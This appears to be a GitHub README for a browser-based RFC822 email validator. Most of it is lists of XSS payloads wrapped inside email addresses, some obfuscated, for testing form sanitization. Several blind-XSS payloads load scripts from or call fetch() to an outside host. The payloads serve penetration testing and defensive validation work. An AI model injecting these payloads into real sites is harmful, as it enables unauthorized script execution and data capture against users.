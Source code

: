 # RFC822 Email Validator
A sleek, browser-based tool for validating email addresses against the RFC822 standard. Built with HTML, CSS, and JavaScript — perfect for quick manual checks, demos, or client-side validation testing.

# Security Testing
Use this tool to test how email input fields handle potentially dangerous strings. Example payloads:
```
"><svg/onload=confirm(1337)>"@x.y
"><svg/onload=alert`XSS!`>"@x.y
"><svg><script>alert(48)</script>"@x.y
"><svg><title>1</title><script>alert(47)</script>"@x.y
"><svg/onload=eval('confirm(37)')>"@x.y
"><svg/onload=confirm?.(33)>"@x.y
"><math><mtext></title><script>confirm(31)</script>"@x.y
"><svg/onload=(confirm)(29)>"@x.y
"><script>setTimeout(()=>confirm(22))</script>"@x.y
"><svg/onload=Function('confirm(20)')()>"@x.y
"><svg/onload=eval(atob('Y29uZmlybSgxOSk='))>"@x.y
"><svg/onload=confirm(String.fromCharCode(49,56))>"@x.y
"><svg><foreignObject><script>confirm(15)</script></foreignObject></svg>"@x.y
"><svg/onload=alert(8)>"@x.y
"><math><mtext></title><script>confirm(6)</script>"@x.y
"><svg><script>confirm(4)</script>"@x.y
"><script>alert(3)</script>"@x.y
"><svg/onload=confirm(1)>"@x.y
```
Test Blind XSS payloads with RFC822 Email Validator for secure input validation. Example payloads:
```
%22%27%3E%3Cscript%3Ealert%281234567%29%3C%2Fscript%3E@x.y
ibro%27%22%3E%3Cscript%20src%3Dhttps%3A%2F%2Fxss0r.com%2Fc%2Fbrocode%3E%3C%2Fscript%3E@xss0r.com
"'><svg/onload=fetch('https://xss0r.com/c/brocode')>"@x.y
"'><svg><script>fetch('https://xss0r.com/c/brocode')</script></svg>"@x.y
"'><script>fetch('https://xss0r.com/c/brocode')</script>"@x.y
```

Great for detecting weaknesses in forms, input sanitization, or frontend validation logic.

![RFC822 Email Validator](https://github.com/0xlipon/RFC822-Email-Validator/blob/main/RFC822.png?raw=true)

# Inspired By
Inspired by `@coffinxp/RFC822-Email-Validator` — now redefined for the web.
